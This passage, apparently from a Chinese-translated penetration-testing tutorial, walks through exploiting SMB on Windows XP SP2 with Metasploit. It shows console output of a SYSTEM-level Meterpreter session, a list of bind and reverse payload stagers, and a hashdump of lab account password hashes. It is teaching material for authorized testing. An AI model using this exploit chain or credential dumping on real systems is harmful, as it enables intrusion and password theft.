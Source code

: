 ```
[*] Automatically detecting the target...

[*] Fingerprint: Windows XP - Service Pack 2 - lang:English

[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)

[*] Attempting to trigger the vulnerability...

[*] Sending stage (957487 bytes) to 172.30.42.18

[*] Meterpreter session 1 opened (172.30.42.20:4444 -> 172.30.42.18:1048) at 2016-05-28 13:38:09 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

通用 Internet 文件系统(CIFS)服务是 Windows 通过网络共享文件的方式。这实质上是下一代服务器消息块(SMB)协议。如果您有一个共享文件的 Windows 系统`—`，并且直到最近，大多数 Windows 安装都默认启用文件共享`—`，您可以在这些 Windows 系统上监听该端口。

设置好变量后，我们告诉 Metasploit 利用漏洞，Metasploit 将漏洞发送到目标，触发操作系统运行 Metasploit 也发送的有效负载。本例中的有效负载是 Meterpreter，它是一个小型命令解释器，为您提供了一种以完全中立的方式与系统进行交互的方法。这意味着您不必了解 Windows 命令或 Linux 命令。你所需要知道的就是如何与 Meterpreter 交互，以便从被开发的系统中得到你所需要的东西。Metasploit 附带了大量的有效负载，您可以在不同的情况下使用。如果您查看漏洞利用运行时的输出，可以看到 Metasploit 系统(172.30.42.20)正在向目标(172.30.42.18)发送网络连接。如果有防火墙挡路，这种可能性可能并不总是存在。您可能需要让被利用的系统向您发送一个网络连接。这被称为反向连接，Metasploit 具有这方面的有效负载。以下是所有可用有效载荷的一小部分示例:

```
   windows/metsvc_bind_tcp
normal  Windows Meterpreter Service, Bind TCP
   windows/metsvc_reverse_tcp
normal  Windows Meterpreter Service, Reverse TCP Inline
   windows/patchupdllinject/bind_hidden_ipknock_tcp
normal  Windows Inject DLL, Hidden Bind Ipknock TCP Stager
   windows/patchupdllinject/bind_hidden_tcp
normal  Windows Inject DLL, Hidden Bind TCP Stager
   windows/patchupdllinject/bind_ipv6_tcp
normal  Windows Inject DLL, Bind IPv6 TCP Stager (Windows x86)
   windows/patchupdllinject/bind_ipv6_tcp_uuid
normal  Windows Inject DLL, Bind IPv6 TCP Stager with UUID Support (Windows x86)
   windows/patchupdllinject/bind_nonx_tcp
normal  Windows Inject DLL, Bind TCP Stager (No NX or Win7)
   windows/patchupdllinject/bind_tcp
normal  Windows Inject DLL, Bind TCP Stager (Windows x86)

```

一旦您入侵了系统，您就可以使用 Meterpreter 从目标收集信息，包括所有的密码散列，如下所示。在像 Windows 这样有图形化桌面的系统上，你可以使用 Meterpreter 来获取桌面的屏幕截图。这将证明你设法进入了系统，并且你可以在以后的报告中写出来。Meterpreter 是专门为渗透测试人员创建的高功能命令解释器，它提供了您在操作系统的内置命令解释器中找不到的功能。例如，Windows 不允许您像这样轻松地转储密码数据库的内容

```
meterpreter > hashdump
Administrator:500:ed174b89559f98ab93e28745b8bf4ba6:5f7277b8635625ad2d2d551867124dbd:::
ASPNET:1003:5b8cce8defe0d65545aefda15894afa0:227510be54d4e5285f3537a22e855dfc:::
Guest:501:aad3b435b51404ea1ad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:7e86e0590641f80063c81f86ea9efa9c:ef449e873959d4b1536660525657047d:::
SUPPORT_388945a0:1002:aad3b435b51404eefad3b435b51404ee:2e54afff1eaa6b62fc0649b715104187:::

```
